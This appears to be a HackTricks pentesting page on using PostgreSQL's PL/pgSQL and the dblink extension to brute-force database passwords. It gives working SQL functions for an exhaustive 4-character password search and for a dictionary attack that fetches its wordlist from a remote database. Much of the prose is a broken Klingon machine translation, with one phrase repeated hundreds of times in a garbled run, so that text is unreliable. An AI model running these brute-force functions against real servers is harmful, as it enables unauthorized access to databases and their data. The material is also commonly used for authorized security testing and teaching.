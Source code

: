 # PL/pgSQL Password Bruteforce

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Find [more information about these attack in the original paper](http://www.leidecker.info/pgshell/Having\_Fun\_With\_PostgreSQL.txt)**.

PL/pgSQL is a **fully featured programming language** that extends beyond the capabilities of SQL by offering **enhanced procedural control**. This includes the utilization of loops and various control structures. Functions crafted in the PL/pgSQL language can be invoked by SQL statements and triggers, broadening the scope of operations within the database environment.

You can abuse this language in order to ask PostgreSQL to brute-force the users credentials, but it must exist on the database. You can verify it's existence using:
```sql
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql';
lanname | lanacl
---------+---------
plpgsql |
```
**ghItlhvam, **PUBLIC**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Daq jatlhlaHbe'chugh, **ghItlhvam**Da
```sql
REVOKE ALL PRIVILEGES ON LANGUAGE plpgsql FROM PUBLIC;
```
In that case, our previous query would output different results:

Klingon Translation:
DaH ghaH, maH cha'logh vItlhutlh:
```sql
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql';
lanname | lanacl
---------+-----------------
plpgsql | {admin=U/admin}
```
ghItlhvam, **`dblink` Daqawlu'taHvIS** script **DIvI'**. vaj **ghaH** 'e' vItlhutlh **ghaHtaHvIS**.
```sql
CREATE EXTENSION dblink;
```
## qo'wI' bruteforce

qaStaHvIS 4 chars password bruteforce vItlhutlh:
```sql
//Create the brute-force function
CREATE OR REPLACE FUNCTION brute_force(host TEXT, port TEXT,
username TEXT, dbname TEXT) RETURNS TEXT AS
$$
DECLARE
word TEXT;
BEGIN
FOR a IN 65..122 LOOP
FOR b IN 65..122 LOOP
FOR c IN 65..122 LOOP
FOR d IN 65..122 LOOP
BEGIN
word := chr(a) || chr(b) || chr(c) || chr(d);
PERFORM(SELECT * FROM dblink(' host=' || host ||
' port=' || port ||
' dbname=' || dbname ||
' user=' || username ||
' password=' || word,
'SELECT 1')
RETURNS (i INT));
RETURN word;
EXCEPTION
WHEN sqlclient_unable_to_establish_sqlconnection
THEN
-- do nothing
END;
END LOOP;
END LOOP;
END LOOP;
END LOOP;
RETURN NULL;
END;
$$ LANGUAGE 'plpgsql';

//Call the function
select brute_force('127.0.0.1', '5432', 'postgres', 'postgres');
```
_Note that even brute-forcing 4 characters may take several minutes._

**ghItlhvam 4 betleH** vaj **wordlist** download 'ej 'oH passwords 'ej (dictionary attack) vItlhutlh.
```sql
//Create the function
CREATE OR REPLACE FUNCTION brute_force(host TEXT, port TEXT,
username TEXT, dbname TEXT) RETURNS TEXT AS
$$
BEGIN
FOR word IN (SELECT word FROM dblink('host=1.2.3.4
user=name
password=qwerty
dbname=wordlists',
'SELECT word FROM wordlist')
RETURNS (word TEXT)) LOOP
BEGIN
PERFORM(SELECT * FROM dblink(' host=' || host ||
' port=' || port ||
' dbname=' || dbname ||
' user=' || username ||
' password=' || word,
'SELECT 1')
RETURNS (i INT));
RETURN word;

EXCEPTION
WHEN sqlclient_unable_to_establish_sqlconnection THEN
-- do nothing
END;
END LOOP;
RETURN NULL;
END;
$$ LANGUAGE 'plpgsql'

-- Call the function
select brute_force('127.0.0.1', '5432', 'postgres', 'postgres');
```
<details>

<summary><strong>qaStaHvIS AWS hacking vItlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* **Do you work in a** **cybersecurity company**? **Do you want to see your** **company advertised in HackTricks**? **or do you want to have access to the** **latest version of the PEASS or download HackTricks in PDF**? **Check the** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* **Discover** [**The PEASS Family**](https://opensea.io/collection/the-peass-family), **our collection of exclusive** [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Get the** [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) **or the** [**telegram group**](https://t.me/peass) **or** **follow** **me on** **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
